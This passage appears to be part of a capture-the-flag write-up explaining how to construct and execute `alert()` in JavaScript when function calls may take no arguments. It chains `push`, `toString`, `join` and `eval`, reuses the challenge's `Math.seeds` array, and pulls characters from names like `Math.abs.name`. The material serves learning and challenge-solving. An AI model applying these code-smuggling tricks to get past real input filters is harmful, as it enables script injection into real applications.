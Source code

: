``` js
var arr = []
eval(arr.join(''.toString(arr.push('a'.toString()))))
// Uncaught ReferenceError: a is not defined
```

In the above code, the variable `a` is executed. By following this concept, we can construct `alert()`. Let's take a simple example:

``` js
var arr = ['a','l','e','r']
eval(
  arr.join(
    ''.toString(
        arr.push(
          ')'.toString(
            arr.push(
              '('.toString(
                arr.push('t'.toString())
              )
            )
          )
        )
      )
  )
)
```

Since each function call cannot have parameters, expressions like `arr.join('')` can be modified to `arr.join(''.toString())` to comply with the rule.

Once we have this basic concept, the remaining questions can be divided into four parts:

1. How do we find a usable array?
2. How do we find the desired characters?
3. How do we join them?
4. How do we execute without using eval?

## 1. Finding an array

In the given challenge, there is a specific array called `Math.seeds`. By using the `pop()` method multiple times, we can empty the array. Here's an example:

``` js
Math.seeds = [1,2,3,4]
Math.seeds.pop(Math.seeds.pop(Math.seeds.pop(Math.seeds.pop())))
console.log(Math.seeds) // []
```

This way, we have an empty array `Math.seeds` that we can use to store elements.

## 2. Finding the desired characters

Firstly, we can check if the desired characters exist within `Math`. For example, `Math.abs.name` gives us the string `"abs"`, and by using `.at()` on it, `Math.abs.name.at()` would be `"a"`.
